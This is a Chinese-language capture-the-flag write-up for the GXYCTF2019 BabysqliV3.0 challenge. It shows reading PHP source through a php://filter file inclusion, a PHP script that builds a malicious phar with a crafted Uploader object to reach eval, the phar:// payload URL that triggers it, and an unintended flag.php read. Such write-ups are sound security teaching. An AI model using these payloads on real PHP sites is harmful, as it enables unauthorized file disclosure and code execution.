```yaml
---
title: '[GXYCTF2019]BabysqliV3.0'
date: 2024-09-03 14:39:33
tags: 题解
categories: 刷题笔记
---
```


### [GXYCTF2019]BabysqliV3.0

看到页面有一个登录框，我们用admin/password就登录成功了

![image-20240903210741138](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409032107273.png)

我们发现url有点眼熟，我们尝试php伪协议读取文件

<!--more-->

```
/home.php?file=php://filter/convert.base64-encode/resource=home
```

得到home.php的源码

![image-20240903211247219](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409032112258.png)

```
<?php
session_start();
echo "<meta http-equiv=\"Content-Type\" content=\"text/html; charset=utf-8\" /> <title>Home</title>";
error_reporting(0);
if(isset($_SESSION['user'])){
        if(isset($_GET['file'])){
                if(preg_match("/.?f.?l.?a.?g.?/i", $_GET['file'])){
                        die("hacker!");
                }
                else{
                        if(preg_match("/home$/i", $_GET['file']) or preg_match("/upload$/i", $_GET['file'])){
                                $file = $_GET['file'].".php";
                        }
                        else{
                                $file = $_GET['file'].".fxxkyou!";
                        }
                        echo "当前引用的是 ".$file;
                        require $file;
                }

        }
        else{
                die("no permission!");
        }
}
?>

```

同样的，我们读取upload.php的源码

```
/home.php?file=php://filter/convert.base64-encode/resource=upload
```

```
<?php
error_reporting(0);
class Uploader{
        public $Filename;
        public $cmd;
        public $token;


        function __construct(){
                $sandbox = getcwd()."/uploads/".md5($_SESSION['user'])."/";
                $ext = ".txt";
                @mkdir($sandbox, 0777, true);
                if(isset($_GET['name']) and !preg_match("/data:\/\/ | filter:\/\/ | php:\/\/ | \./i", $_GET['name'])){
                        $this->Filename = $_GET['name'];
                }
                else{
                        $this->Filename = $sandbox.$_SESSION['user'].$ext;
                }

                $this->cmd = "echo '<br><br>Master, I want to study rizhan!<br><br>';";
                $this->token = $_SESSION['user'];
        }

        function upload($file){
                global $sandbox;
                global $ext;

                if(preg_match("[^a-z0-9]", $this->Filename)){
                        $this->cmd = "die('illegal filename!');";
                }
                else{
                        if($file['size'] > 1024){
                                $this->cmd = "die('you are too big (′▽`〃)');";
                        }
                        else{
                                $this->cmd = "move_uploaded_file('".$file['tmp_name']."', '" . $this->Filename . "');";
                        }
                }
        }

        function __toString(){
                global $sandbox;
                global $ext;
                // return $sandbox.$this->Filename.$ext;
                return $this->Filename;
        }

        function __destruct(){
                if($this->token != $_SESSION['user']){
                        $this->cmd = "die('check token falied!');";
                }
                eval($this->cmd);
        }
}

if(isset($_FILES['file'])) {
        $uploader = new Uploader();
        $uploader->upload($_FILES["file"]);
        if(@file_get_contents($uploader)){
                echo "下面是你上传的文件：<br>".$uploader."<br>";
                echo file_get_contents($uploader);
        }
}

?>


```

### 预期解

由于__destruct() 方法中，想要 eval(\$this->cmd); 的前提条件是 \$this->token 和$\_SESSION[‘user’] 相等

```
function __destruct(){
	if($this->token != $_SESSION['user']){
		$this->cmd = "die('check token falied!');";
	}
	eval($this->cmd);
}

```

在__construct() 方法中可见如下两行代码

```
$sandbox = getcwd()."/uploads/".md5($_SESSION['user'])."/";
$this->Filename = $sandbox.$_SESSION['user'].$ext;

```

因此可以先随便上传一个 txt，得到的路径中，.txt 前面的就是 $_SESSION[‘user’]

![image-20240903213553120](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409032135202.png)

得到：`GXY76f8a4e2acfb26839a076ae2ac5bc5d6`，生成phar，并将生成的phar上传

```
<?php
class Uploader{
    public $Filename;
    public $cmd;
    public $token;
}

$upload = new Uploader();
$upload->cmd = "highlight_file('/var/www/html/flag.php');";
$upload->Filename = 'test';
$upload->token = 'GXY76f8a4e2acfb26839a076ae2ac5bc5d6';

$phar = new Phar("exp.phar");
$phar->startBuffering();
$phar->setStub('GIF89a'.'<?php __HALT_COMPILER(); ? >');
$phar->setMetadata($upload); 
$phar->addFromString("exp.txt", "test");
$phar->stopBuffering();

```

得到路径`/var/www/html/uploads/93cd61477a821014fa4b00df090ebdcd/GXY3fb034f8f0c46f14bf11438f9afccbf4.txt`

然后将这个路径带上 phar:// 作为 name 参数的值，再随意上传一个文件，因为 $this->Filename 被我们手工指定为 phar，触发了 phar 反序列化导致命令执行
Payload：

```
/home.php?file=upload&name=phar:///var/www/html/uploads/93cd61477a821014fa4b00df090ebdcd/GXY3fb034f8f0c46f14bf11438f9afccbf4.txt
传任意文件后，得到 flag

```

![image-20240903215212229](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409032152464.png)



### 非预期

由于`echo file_get_contents($uploader);`上传后会显示出\$uploader 这个文件的内容，所以只要使 $this-Filename 为 flag.php 然后随便传个东西就会得到 flag 了

![image-20240903215654960](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409032156058.png)

![image-20240903215715243](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409032157272.png)
